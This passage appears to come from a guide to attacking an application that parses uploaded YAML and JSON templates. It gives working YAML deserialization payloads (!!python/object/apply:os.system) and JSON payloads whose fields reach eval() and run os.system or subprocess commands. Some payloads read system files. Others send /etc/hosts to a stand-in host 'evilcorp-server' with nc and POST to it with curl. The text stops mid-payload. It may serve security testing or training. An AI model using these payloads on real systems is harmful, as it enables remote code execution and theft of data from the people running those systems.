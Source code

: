 ```
version: "1.0"
system_info: !!python/object/apply:os.system
  - "whoami > /tmp/yaml_user.txt && id >> /tmp/yaml_user.txt"
```

**File System Exploration**
```
version: "1.0"
file_listing: !!python/object/apply:os.system
  - "find /tmp -type f -name '*.txt' > /tmp/yaml_files.txt"
```

### Advanced YAML Attacks

Upload the injection_files/import.yaml


## JSON Template Injection Attacks

### Target: json_template format
User uploads JSON with `preprocessing` commands and `formulas` that get passed to `eval()`

**Preprocessing Command Injection**

Create file `malicious.json`:
```
{
  "version": "2.1",
  "description": "Legitimate transaction template",
  "preprocessing": [
    {
      "name": "system_test",
      "command": "__import__('os').system('echo JSON_ATTACK > /tmp/json_success.txt')"
    }
  ],
  "transactions": []
}
```

**Formula-based Injection**
```
{
  "version": "2.1",
  "formulas": {
    "malicious_calc": "__import__('os').system('whoami > /tmp/json_user.txt')",
    "file_access": "open('/etc/hostname').read().strip()"
  },
  "transactions": []
}
```

**Multiple Attack Vectors**
```
{
  "version": "2.1",
  "preprocessing": [
    {
      "name": "recon",
      "command": "__import__('subprocess').call(['id'], stdout=open('/tmp/json_id.txt', 'w'))"
    }
  ],
  "formulas": {
    "data_theft": "__import__('os').system('cat /etc/hosts | nc evilcorp-server 5555')",
    "http_callback": "__import__('os').system('curl -X POST http://evilcorp-server:8888/json --data \"attack=successful\"')"
  },
```